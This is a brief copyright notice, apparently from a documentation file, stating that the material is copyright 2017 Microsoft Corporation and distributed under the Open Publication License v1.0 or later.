
Copyright
=========

Copyright (c) 2017 by Microsoft Corporation. This material may be
distributed only subject to the terms and conditions set forth in the
Open Publication License, v1.0 or later (the latest version is presently
available at http://www.opencontent.org/openpub/).
